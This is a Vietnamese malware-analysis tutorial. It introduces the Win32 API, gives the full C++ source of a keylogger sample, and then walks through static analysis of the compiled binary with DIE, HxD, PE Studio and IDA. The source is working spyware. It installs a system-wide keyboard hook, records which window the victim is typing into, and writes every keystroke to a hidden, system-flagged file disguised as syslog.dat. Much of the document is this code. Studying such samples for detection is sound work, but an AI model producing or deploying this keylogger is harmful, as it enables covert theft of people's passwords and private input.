# 1.Tổng quan Win32 API
Win32 API là tập hợp các hàm do Microsoft cung cấp, cho phép ứng dụng tương tác trực tiếp với hệ điều hành Windows từ thao tác file, quản lý process, cho đến điều khiển bàn phím và màn hình.

Trong lĩnh vực malware analysis, Win32 API là thứ đầu tiên cần hiểu vì hầu hết mọi hành vi độc hại đều phải đi qua đây. Keylogger dùng nó để hook bàn phím. Ransomware dùng nó để mã hóa file. Trojan dùng nó để inject code vào process khác. Nhìn vào danh sách API mà một file thực thi import là có thể đoán được ngay nó định làm gì đó là lý do Import Table luôn là điểm kiểm tra đầu tiên khi phân tích tĩnh.

## 1.1 Kiến trúc hoạt động
Khi một ứng dụng gọi Win32 API, lời gọi đó đi qua nhiều lớp trước khi chạm đến phần cứng:

| Application (malware / software) ↓ Win32 API  (kernel32.dll, user32.dll, advapi32.dll...) ↓ NTDLL.DLL  (cầu nối sang kernel) ↓ Windows Kernel ↓ Hardware / File System |
| --- |

Malware hoạt động ở lớp Win32 API tức là user-mode, không cần quyền kernel. Đây là lý do phần lớn malware phổ biến như keylogger, ransomware đều không cần driver và vẫn gây ra thiệt hại lớn.

## 1.2 Các kiểu dữ liệu thường gặp
Win32 API không dùng kiểu dữ liệu C thông thường mà định nghĩa bộ kiểu riêng để đảm bảo tương thích giữa các phiên bản Windows. Khi đọc code malware sẽ thấy những kiểu này liên tục:

- **HANDLE**: định danh đại diện cho một tài nguyên hệ thống file, process, thread, registry key. Khi mở file hay tạo process, Windows trả về HANDLE để thao tác tiếp.
- **DWORD**: số nguyên không dấu 32-bit. Dùng để lưu kích thước, số byte, hoặc các cờ cấu hình.
- **LPVOID**: con trỏ đến vùng nhớ bất kỳ tương đương void* trong C. Thường xuất hiện trong các hàm cấp phát bộ nhớ như VirtualAlloc.
- **BOOL**: giá trị logic của Windows. 0 là FALSE, khác 0 là TRUE. Phần lớn hàm Win32 trả về BOOL để báo thành công hay thất bại.
- **LPCSTR / LPCWSTR**: con trỏ đến chuỗi hằng. LPCSTR cho ANSI (chữ A cuối tên hàm), LPCWSTR cho Unicode (chữ W cuối tên hàm).

## 1.3 Xử lý lỗi
Win32 API không tự báo lỗi ứng dụng phải tự kiểm tra. Hầu hết hàm trả về NULL, FALSE hoặc INVALID_HANDLE_VALUE khi thất bại. Sau đó gọi GetLastError() để lấy mã lỗi cụ thể, rồi dùng FormatMessage() để chuyển mã đó thành chuỗi mô tả đọc được. Trong malware analysis, khi thấy code bỏ qua xử lý lỗi thường là dấu hiệu tác giả cố tình giữ code ngắn gọn hoặc sample được tạo nhanh.

# 2. Xây dựng Keylogger Sample
Keylogger được xây dựng bằng C++ sử dụng kỹ thuật Low-Level Keyboard Hook là kỹ thuật phổ biến nhất trong các keylogger thực tế vì không cần inject DLL vào process khác nhưng vẫn bắt được toàn bộ keystroke trên hệ thống
## 2.1 Một số điểm chính của code

- **Đăng ký hook toàn hệ thống**: Gọi SetWindowsHookEx(WH_KEYBOARD_LL) để yêu cầu Windows báo cáo mọi keystroke về callback trước khi chuyển đến ứng dụng đích. Không cần inject, không cần quyền admin
- **Theo dõi ngữ cảnh (Context Tracking)**: Gọi GetForegroundWindow và GetWindowTextA mỗi khi cửa sổ active thay đổi để ghi lại tên ứng dụng nạn nhân đang dùng giúp attacker phân loại dữ liệu, ví dụ phân biệt gõ vào Notepad với gõ vào trang đăng nhập ngân hàng
- **Giải mã ký tự chính xác (Key Decoding)**: Dùng GetKeyboardState kết hợp ToUnicode để chuyển virtual key code thành ký tự thật bao gồm cả chữ hoa/thường tùy trạng thái Shift và CapsLock. Chỉ có vkCode thôi là không đủ
- **Ghi log ra file ẩn (Stealth Logging)**: Dùng CreateFileA với cờ FILE_ATTRIBUTE_HIDDEN \| FILE_ATTRIBUTE_SYSTEM để tạo file syslog.dat trong %TEMP%  file này không hiện trong Explorer thông thường và trông giống file hệ thống
- **Duy trì hook hoạt động (Message Loop)**: Chạy vòng lặp GetMessage liên tục yêu cầu bắt buộc của Windows. Nếu không có vòng lặp này, hook sẽ bị Windows tự gỡ sau vài trăm millisecond.

## 2.2 Mã nguồn
// keylogger_sample.cpp
// MUC DICH HOC THUAT - CHI CHAY TRONG MOI TRUONG SANDBOX
#include <windows.h>
#include <stdio.h>
#include <time.h>

#define LOG_FILE "%TEMP%\\syslog.dat"

HHOOK   g_hKeyboardHook = NULL;   // Handle toi keyboard hook
HANDLE  g_hLogFile       = NULL;   // Handle toi file log
HWND    g_hLastWindow    = NULL;   // Cua so active truoc do

// ============================================
// Ham: GetLogFilePath - Lay duong dan file log
// ============================================
void GetLogFilePath(LPSTR lpszPath, DWORD dwSize) {
char szTemp[MAX_PATH];
GetTempPathA(MAX_PATH, szTemp);          // %TEMP%
lstrcpynA(lpszPath, szTemp, dwSize);
lstrcatA(lpszPath, "syslog.dat");
}

// ============================================
// Ham: WriteLog - Ghi chuoi vao file log
// ============================================
void WriteLog(LPCSTR lpszText) {
if (g_hLogFile == INVALID_HANDLE_VALUE \|\| g_hLogFile == NULL)
return;
DWORD dwWritten;
WriteFile(g_hLogFile,                    // Handle file
lpszText,                      // Du lieu ghi
(DWORD)lstrlenA(lpszText),     // So byte
&dwWritten,                    // So byte da ghi
NULL);                         // Khong dung overlapped I/O
}

// ============================================
// Ham: LogWindowContext - Ghi ten cua so hien tai
// ============================================
void LogWindowContext() {
HWND hForeground = GetForegroundWindow();
if (hForeground == g_hLastWindow) return;  // Khong thay doi
g_hLastWindow = hForeground;

char szTitle[256] = {0};
GetWindowTextA(hForeground, szTitle, sizeof(szTitle));

char szBuf[512];
wsprintfA(szBuf, "\n\n[Window: %s]\n", szTitle);
WriteLog(szBuf);
}

// ============================================
// CALLBACK: LowLevelKeyboardProc
// Duoc goi boi Windows khi co phim duoc nhan/tha
// nCode  : >= 0 neu can xu ly, < 0 skip
// wParam : WM_KEYDOWN, WM_KEYUP, WM_SYSKEYDOWN...
// lParam : Con tro toi KBDLLHOOKSTRUCT
// ============================================
LRESULT CALLBACK LowLevelKeyboardProc(
int    nCode,
WPARAM wParam,
LPARAM lParam)
{
// Neu nCode < 0: khong xu ly, chuyen tiep ngay
if (nCode < 0)
return CallNextHookEx(g_hKeyboardHook, nCode, wParam, lParam);

// Chi xu ly khi phim duoc nhan xuong
if (wParam == WM_KEYDOWN \|\| wParam == WM_SYSKEYDOWN) {
KBDLLHOOKSTRUCT* pKbd = (KBDLLHOOKSTRUCT*)lParam;
DWORD vkCode = pKbd->vkCode;  // Virtual Key Code

LogWindowContext();  // Cap nhat context cua so

char szKey[64] = {0};

// --- Xu ly cac phim dac biet ---
switch (vkCode) {
case VK_RETURN:  lstrcpyA(szKey, "[ENTER]\n"); break;
case VK_BACK:    lstrcpyA(szKey, "[BACKSPACE]"); break;
case VK_TAB:     lstrcpyA(szKey, "[TAB]"); break;
case VK_DELETE:  lstrcpyA(szKey, "[DEL]"); break;
case VK_ESCAPE:  lstrcpyA(szKey, "[ESC]"); break;
case VK_SPACE:   lstrcpyA(szKey, " "); break;
case VK_SHIFT: case VK_LSHIFT: case VK_RSHIFT:
lstrcpyA(szKey, "[SHIFT]"); break;
case VK_CONTROL: lstrcpyA(szKey, "[CTRL]"); break;
case VK_MENU:    lstrcpyA(szKey, "[ALT]"); break;
case VK_CAPITAL: lstrcpyA(szKey, "[CAPSLOCK]"); break;
default: {
// --- Chuyen doi Virtual Key sang ky tu Unicode ---
BYTE keyState[256];
GetKeyboardState(keyState);  // Lay trang thai tat ca phim

WCHAR wchBuf[4] = {0};
int nResult = ToUnicode(
vkCode,              // Virtual key code
pKbd->scanCode,      // Scan code
keyState,            // Trang thai keyboard
wchBuf,              // Output buffer
3,                   // Max chars
0                    // Flags
);

if (nResult > 0) {
// Convert Unicode -> ANSI de ghi file
WideCharToMultiByte(CP_ACP, 0, wchBuf, nResult,
szKey, sizeof(szKey), NULL, NULL);
}
break;
}
}

if (szKey[0] != '\0')
WriteLog(szKey);  // Ghi keystroke vao file
}

// QUAN TRONG: Phai goi CallNextHookEx de khong block input
return CallNextHookEx(g_hKeyboardHook, nCode, wParam, lParam);
}

// ============================================
// WinMain - Entry point
// ============================================
int WINAPI WinMain(
HINSTANCE hInstance, HINSTANCE, LPSTR, int)
{
// --- Mo file log (tao moi neu chua ton tai, append neu co) ---
char szLogPath[MAX_PATH];
GetLogFilePath(szLogPath, MAX_PATH);

g_hLogFile = CreateFileA(
szLogPath,
GENERIC_WRITE,               // Quyen ghi
FILE_SHARE_READ,             // Cho phep doc dong thoi
NULL,                        // Default security
OPEN_ALWAYS,                 // Tao moi hoac mo file cu
FILE_ATTRIBUTE_HIDDEN \|      // An file
FILE_ATTRIBUTE_SYSTEM,       // Danh dau la file he thong
NULL
);

// Di chuyen con tro ve cuoi file (append mode)
SetFilePointer(g_hLogFile, 0, NULL, FILE_END);

// Ghi timestamp bat dau session
char szTs[128];
SYSTEMTIME st; GetLocalTime(&st);
wsprintfA(szTs, "\n=== SESSION START %02d/%02d/%04d %02d:%02d:%02d ===\n",
st.wDay, st.wMonth, st.wYear,
st.wHour, st.wMinute, st.wSecond);
WriteLog(szTs);

// --- Cai dat Low-Level Keyboard Hook ---
g_hKeyboardHook = SetWindowsHookEx(
WH_KEYBOARD_LL,            // Loai hook: Low-Level Keyboard
LowLevelKeyboardProc,      // Dia chi ham callback
hInstance,                 // Instance cua module nay
0                          // 0 = hook toan he thong (tat ca thread)
);

if (g_hKeyboardHook == NULL) {
CloseHandle(g_hLogFile);
return 1;  // Loi: khong cai hook duoc
}

// --- Message Loop - BAT BUOC de hook hoat dong ---
// Windows dispatch messages; hook chi nhan event khi co message loop
MSG msg;
while (GetMessage(&msg, NULL, 0, 0)) {
TranslateMessage(&msg);
DispatchMessage(&msg);
}

// --- Cleanup ---
UnhookWindowsHookEx(g_hKeyboardHook);
CloseHandle(g_hLogFile);
return 0;
}

Malware sử dụng SetWindowsHookEx(WH_KEYBOARD_LL) để đăng ký lắng nghe toàn bộ keystroke trên hệ thống mà không cần inject vào process khác.
- **Theo dõi ngữ cảnh (Context Tracking):** Gọi GetForegroundWindow và GetWindowTextA để biết người dùng đang gõ vào ứng dụng nào — giúp attacker phân loại dữ liệu, ví dụ phân biệt gõ vào Notepad với gõ vào trang đăng nhập ngân hàng.
- **Giải mã ký tự chính xác (Key Decoding):** Dùng GetKeyboardState kết hợp ToUnicode để chuyển virtual key code thành ký tự thật — bao gồm cả chữ hoa/thường tùy trạng thái Shift và CapsLock.
- **Ghi log ra file ẩn (Stealth Logging):** Dùng CreateFileA với cờ FILE_ATTRIBUTE_HIDDEN \| FILE_ATTRIBUTE_SYSTEM để tạo file syslog.dat trong %TEMP% — file này không hiện trong Explorer thông thường và trông giống file hệ thống.
- **Duy trì hook hoạt động (Message Loop):** Chạy vòng lặp GetMessage liên tục — đây là yêu cầu bắt buộc của Windows, nếu không có vòng lặp này hook sẽ bị Windows tự gỡ sau vài trăm millisecond.

# 3. Phân tích tĩnh

## 3.1 Kiểm tra với DIE (Detect It Easy)



Với sample này kết quả cho thấy file được compile bằng MinGW/GCC, kiến trúc x86 32-bit, không bị pack entropy các section ở mức bình thường khoảng 6.x, không có dấu hiệu obfuscation.
## 3.2 Phân tích với HxD
Mở file keylogger_sample.exe bằng HxD để xem raw bytes. Tại offset 0x00, hai byte đầu tiên là 4D 5A — đây là magic bytes "MZ", signature bắt buộc của mọi file PE



## 3.3 Phân tích Import Table với PE Studio và IDA
Đây là bước quan trọng nhất trong phân tích tĩnh. Import Table cho thấy malware định làm gì ngay từ cái nhìn đầu tiên mà không cần chạy code.







<u>**User32.dll**</u>
**SetWindowsHookEx**: Đăng ký một hook toàn hệ thống với kiểu WH_KEYBOARD_LL. Đây là API cốt lõi của keylogger — sau khi gọi hàm này
**CallNextHookEx**: Chuyển tiếp keystroke event đến hook tiếp theo trong chuỗi. Hàm này bắt buộc phải gọi ở cuối callback để không làm gián đoạn input của người dùng nạn nhân sẽ không cảm thấy bàn phím bị lag hay mất phím
**UnhookWindowsHookEx**: Gỡ bỏ hook khi malware tắt. Cho thấy sample có cơ chế cleanup đúng cách.
**GetForegroundWindow**: Lấy handle của cửa sổ đang được người dùng sử dụng tại thời điểm đó. Malware dùng hàm này để biết nạn nhân đang làm gì gõ vào trình duyệt, ứng dụng ngân hàng hay chỉ là Notepad.
**GetWindowTextA**: Lấy tiêu đề của cửa sổ đang active. Kết hợp với GetForegroundWindow, malware ghi tiêu đề này vào log để attacker dễ dàng phân loại dữ liệu đánh cắp được.
**GetKeyboardState**: Lấy trạng thái hiện tại của toàn bộ bàn phím bao gồm Shift, CapsLock, Ctrl đang được giữ hay không. Cần thiết để bước tiếp theo decode ra đúng ký tự.
**ToUnicode**: Chuyển đổi virtual key code thành ký tự Unicode thực sự dựa trên trạng thái bàn phím lấy từ GetKeyboardState. Ví dụ cùng một phím A nhưng có Shift thì ra A hoa, không có Shift thì ra a thường.
**GetMessage / DispatchMessage**: Duy trì message loop chạy liên tục yêu cầu bắt buộc của Windows. Hook chỉ hoạt động khi thread cài hook đang có message loop, nếu không Windows sẽ tự gỡ hook sau vài trăm millisecond.

<u>**Kernel32.dll**</u>
**GetTempPathA**: Lấy đường dẫn đến thư mục %TEMP% của hệ thống. Malware dùng thư mục này để lưu file log vì ít bị chú ý hơn so với các thư mục thông thường.
**CreateFileA**: Tạo file log syslog.dat trong %TEMP% với cờ FILE_ATTRIBUTE_HIDDEN \| FILE_ATTRIBUTE_SYSTEM để ẩn file khỏi Explorer thông thường và ngụy trang thành file hệ thống.
**WriteFile**: Ghi keystroke đã được decode vào file log. Hàm này được gọi liên tục mỗi khi có phím được nhấn trong suốt thời gian malware chạy.
**SetFilePointer**: Di chuyển con trỏ ghi về cuối file mỗi khi mở lại để append thêm vào log thay vì ghi đè từ đầu.
**GetLocalTime / GetSystemTime**: Lấy thời gian hiện tại để ghi timestamp vào đầu mỗi session log.
**CloseHandle**: Đóng handle của file log khi malware kết thúc để giải phóng tài nguyên hệ thống.

## 3.3 Phân tích chuỗi Strings
Chạy Strings để extract từ binary. Các chuỗi đáng chú ý tìm thấy trong sample:



| syslog.dat           ; Tên file log — cố ý dùng tên giống file hệ thong [Window: %s]         ; Format string ghi tên cửa sổ active [ENTER]              ; Label cho phim dac biet [BACKSPACE] [SHIFT] [CTRL] [ALT] SESSION START        ; Timestamp dau moi session ; Khong co URL hay IP -> offline keylogger |
| --- |

## 3.4 Phân tích code với IDA Free
gọi SetWindowsHookEx — tham số thứ hai là địa chỉ hàm callback LowLevelKeyboardProc



